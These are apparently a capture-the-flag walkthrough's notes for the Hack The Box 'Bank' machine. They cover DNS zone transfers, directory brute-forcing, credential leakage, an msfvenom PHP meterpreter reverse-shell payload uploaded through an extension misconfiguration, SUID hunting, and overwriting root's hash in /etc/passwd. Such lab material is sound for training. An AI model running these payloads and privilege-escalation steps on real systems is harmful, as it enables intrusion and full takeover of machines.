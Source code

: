 #### Enumeration
- Open Ports `port 22, 53,80`
- No information gathered from the DNS Server
- Virtual host is guessed `bank.htb` and added to the `/etc/hosts`
- `balance-transfer` directory enumerated
- One file varies in size and reveals valid creds due to `failed encryption`
- The creds are used to login to the `web-app`
- `File Upload` in support page
- Comment found in page source
```html
I added the file extension .htb to execute as php for debugging purposes only
```

#### Shell Obtain
##### Via Metasploit
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=<your-ip> lport=<listening port> -f raw > shell.htb
```
- Upload the shell.htb in the support page and navigate to /uploads dir to get executed

##### Unintended Way
- In `burp` the support.php contents can be viewed without authentication as it mis-handles redirections


#### Priv Esc
- On running the `emergency` binary, the user is escalated to root group and root shell is obtained



#### Commands:

**DNS port Poking**
```bash
nslookup
> SERVER 10.10.10.29
# ask for who is localhost 127.0.0.1 Possiblities might expose a new host
> 127.0.0.1
# reverse lookup
> 10.10.10.29
# guessing the host name and it responds
> bank.htb
```

**DNS Recon**
```bash
# gathers all the host from 127.0.0.0 - 127.0.0.255 in the name server 10.10.10.29
dnsrecon -r 127.0.0.0/24 -n 10.10.10.29
# some host file may be included in 127.0.1.0 - 127.0.1.255
# If the 24 is replaced wirth `127.0.0.0/16` range will be from 127.0.0.0 - 127.0.255.255, if 8, 3 octacs will be checked
dnsrecon -r 127.0.1.0/24 -n 10.10.10.29
# On the 10 subnet
dnsrecon -r 10.10.10.0/24 -n 10.10.10.29
```

**DNS Zone Transfer**

```bash
# zone transfer without specifing a domain
dig axfr @10.10.10.29
# zone transfer on specifying the domain
dig axfr bank.htb @10.10.10.29
```

**Directory Enumeration**
```bash
python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -f -t 20 -u http://bank.htb
```

**Multiple files download and sorting**
```bash
# wget
# wgets all the files recursively
wget -r http://bank.htb/balance-transfer/
# sort
# obtains the no. of characters in each file and arranges in a decending order
wc -c *.acc | sort -nr 
```

**Find files with specific permission**
```bash
find / -perm -4000 -exec ls -la 2>/dev/null
```

**Editing passwd file**
```bash
- openssl passwd ippsec
<generated hash>
- vi /etc/passwd
# change the x field with the generated hash
root:asdasds:.......
- su  root
ippsec
```
